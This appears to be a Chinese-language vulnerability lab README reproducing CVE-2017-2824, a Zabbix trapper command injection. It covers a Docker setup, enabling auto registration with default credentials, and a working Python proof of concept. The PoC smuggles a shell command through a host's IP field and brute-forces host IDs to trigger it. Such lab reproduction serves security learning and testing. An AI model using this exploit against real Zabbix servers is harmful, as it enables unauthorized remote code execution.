



# Zabbix Server Active Proxy Trapper 命令注入漏洞（CVE-2017-2824）

Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。

在 Zabbix 版本 2.0.x 2.0.21 之前，2.2.x 2.2.18 之前，2.4.x，3.0.x 3.0.9 之前，或者 3.2.x 3.2.5 之前，Zabbix 的 server-side trapper 命令功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个 Zabbix proxy 发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325
- https://support.zabbix.com/browse/ZBX-12075

## 环境搭建

执行如下命令启动一个完整的 Zabbix 3.0.3 环境，包含 Web 端、Server 端、1 个 Agent 和 Mysql 数据库：

```
docker compose up -d
```

命令执行后，执行 `docker compose ps` 查看容器是否全部成功启动，如果没有，可以尝试重新执行 `docker compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码 `admin/zabbix` 登录后台，进入 Configuration->Actions，将 Event source 调整为 Auto registration，然后点击 Create action，创建一个 Action，名字随意：


第三个标签页，创建一个 Operation，type 是"Add Host"：



保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为 Agent。

## 漏洞复现

使用这个简单的 POC 来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

这个 POC 比较初级，请多执行几次，当查看到如下结果时，则说明命令执行成功：



进入 server 容器，可见 `/tmp/success` 已成功创建：



有兴趣的同学可以对这个 POC 进行改进，提交 Pull Request。
